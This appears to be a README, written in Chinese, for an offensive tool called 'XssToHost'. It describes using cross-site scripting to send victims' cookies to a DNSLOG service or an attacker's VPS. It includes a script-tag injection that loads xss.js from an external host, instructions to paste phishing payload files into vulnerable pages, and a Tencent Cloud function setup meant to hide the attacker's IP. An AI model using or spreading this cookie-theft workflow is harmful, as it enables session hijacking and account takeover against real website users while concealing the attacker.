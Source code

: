 # XssToHost

通过js跨域请求到DNSLOG平台或自己的VPS主机，并实现cookie外带  

## Usage 

1.将xss.js中的http地址改为带有监听功能的服务器，比如DNSLOG或者开了监听的VPS  
2.将xss.js部署在自己的VPS上  
3.当可以打xss时，可用

```html
<script src="http://exmaple.com/xss.js"></script>
```

方式远程加载此文件  
4.如遇到可上传HTML并解析的情况，可将xss.html上传到目标页面，远程加载xss.js。或者是利用iframe等可引用html的标签加载xss.html  

5.xss2.html与xssfish.html为实战型，修改相关域名直接将html内的语句复制到有xss位置的地方即可  

6.SCFxss.py为腾讯云函数配置文件，修改文件中的EXAMPLE.COM为自己的VPS或者DNSLOG后，直接在云函数中配置即可，触发器为api网关，勾选集成响应，额外的可勾选CORS，并根据官方提示新建相应插件并绑定API即可。云函数版本是xss.html的增强版本，具有隐匿IP的特性  
